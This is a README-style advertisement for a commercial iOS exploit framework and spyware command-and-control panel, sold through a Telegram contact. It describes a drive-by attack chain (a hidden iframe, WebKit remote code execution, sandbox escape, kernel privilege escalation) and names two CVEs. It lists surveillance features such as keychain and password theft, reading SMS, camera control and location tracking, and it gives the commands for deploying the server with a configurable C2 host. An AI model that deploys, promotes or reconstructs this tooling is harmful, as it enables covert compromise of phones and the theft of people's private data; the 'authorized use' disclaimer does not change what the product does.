





# DarkSword Pro Commercial Version

Latest Enhanced Version Released April 2026 + Perfect Commercial Backend

## Project Overview

DarkSword Pro is the industry's leading iOS security research exploit framework, designed specifically for professional red teams and security research teams. We provide a complete iOS 18.4 - 18.7 exploit chain, combined with a powerful commercial-grade C2 control backend, providing comprehensive support for your security testing needs.

## **Get Full Project**: **Telegram**: [https://t.me/Jeequan](https://t.me/Jeequan) (Technical support not free, 5000U)

> **Disclaimer**: This tool is for authorized security research and penetration testing only.

## Core Features

### Exploit Modules

| Feature Module | Supported Versions | Description |
|---------------|-------------------|-------------|
| WebKit RCE | iOS 18.4 / 18.6+ | Remote Code Execution |
| Sandbox Escape | iOS 18.4 | Bypass sandbox restrictions |
| Privilege Escalation | iOS 18.4 - 18.7 | Kernel-level read/write |
| C2 Communication | Configurable | Custom command & control |

### C2 Control Panel Features

| Feature Module | Description |
|---------------|-------------|
| Device Management | Device list, online status monitoring, device info viewing |
| Task Management | Batch task delivery, task status tracking, task history |
| Data Exfiltration | Keychain reading, WiFi password extraction, contacts extraction |
| Remote Control | Screenshot, camera control, file management, command execution |
| Location Tracking | Real-time location, location history |
| Information Gathering | Call history, SMS content, clipboard data |
| Dashboard | Device statistics, task overview, exfiltration records |
| Attack Logs | Complete operation logs, attack record tracking |
| Device Map | Geographic location visualization |

### Supported CVEs

| CVE ID | Target Version | Component |
|--------|---------------|-----------|
| CVE-2025-31277 | iOS 18.4 | WebWorker JSC Exploit |
| CVE-2025-43529 | iOS 18.6+ | WebWorker JSC Exploit |

## Technical Architecture

### Exploit Chain Flow

```
┌─────────────────────────────────────────────────────┐
│ 1. Landing Page                                    │
│    - Hidden iframe loads attack page               │
└─────────────────────────────────────────────────────┘
                          ↓
┌─────────────────────────────────────────────────────┐
│ 2. Frame Injection                                 │
│    - Inject version detection and module loader     │
└─────────────────────────────────────────────────────┘
                          ↓
┌─────────────────────────────────────────────────────┐
│ 3. Version Adaptation                              │
│    - Auto-detect iOS version                       │
│    - Load corresponding RCE module                 │
└─────────────────────────────────────────────────────┘
                          ↓
┌─────────────────────────────────────────────────────┐
│ 4. Remote Code Execution                           │
│    - WebKit exploit                                │
│    - JavaScriptCore execution environment          │
└─────────────────────────────────────────────────────┘
                          ↓
┌─────────────────────────────────────────────────────┐
│ 5. Sandbox Escape                                 │
│    - Bypass iOS sandbox security restrictions      │
└─────────────────────────────────────────────────────┘
                          ↓
┌─────────────────────────────────────────────────────┐
│ 6. Privilege Escalation                           │
│    - Kernel-level read/write primitives            │
│    - ICMPv6 Socket technique                       │
│    - IOSurface physical memory mapping             │
└─────────────────────────────────────────────────────┘
                          ↓
┌─────────────────────────────────────────────────────┐
│ 7. Command & Control                              │
│    - Customizable C2 address                       │
│    - Data exfiltration and transfer               │
└─────────────────────────────────────────────────────┘
```

## Project Structure

```
DarkSword/
├── darksword/           # Python main module
│   ├── cli.py          # CLI entry point
│   ├── server.py       # HTTP server
│   ├── payloads.py     # Payload sync management
│   └── config.py       # Configuration management
├── payloads/            # Web Payloads
├── templates/           # Landing page templates
├── kexploit/            # Kernel exploit
├── exfil/               # Data receiving directory
└── README.md
```

## Quick Start

### Requirements

- Python >= 3.9
- Supported OS: Windows / Linux / macOS

### Installation & Deployment

```bash
# 1. Enter project directory
cd darksword-main

# 2. Create virtual environment
python3.9 -m venv venv

# 3. Activate virtual environment
# Linux/Mac:
source venv/bin/activate
# Windows:
.\venv\Scripts\activate

# 4. Install project
pip install -e .

# 5. Sync payloads
darksword sync

# 6. Download kernel exploit
darksword sync-kexploit

# 7. Start server
darksword serve -H 0.0.0.0 -p 8080
```

### CLI Commands

| Command                            | Description              |
| ---------------------------------- | ------------------------ |
| `darksword serve`                  | Start HTTP server        |
| `darksword sync`                   | Sync payloads            |
| `darksword sync-kexploit`          | Sync kernel exploit      |
| `darksword list`                   | List available payloads  |
| `darksword info`                   | Display exploit info     |
| `darksword template generate`      | Generate custom landing  |

### Server Options

```bash
darksword serve -H 0.0.0.0 -p 8080
darksword serve -p 8443 --c2-host http://your-c2.com
```

- `-H, --host`: Listen address
- `-p, --port`: Port
- `--c2-host`: Custom C2 address
- `--redirect`: Fallback redirect URL

## Data Storage

Exfiltrated data is automatically saved to:

```
darksword-main/exfil/
```

Save format: `{device}_{category}_{timestamp}.bin/txt`

## Interface Display

### C2 Control Panel - Dashboard


### C2 Control Panel - Device List


### C2 Control Panel - Task Management


### C2 Control Panel - Device Management


### C2 Control Panel - Function Menu


### Feature Demonstration












## Use Cases

- Authorized penetration testing projects
- Red team operations
- iOS security research
- Exploit technology analysis

## Contact Us

For more information or full project access:

- **Telegram**: [https://t.me/Jeequan](https://t.me/Jeequan)

---

**Disclaimer**: This tool is for authorized use only. Unauthorized system testing may violate laws and regulations.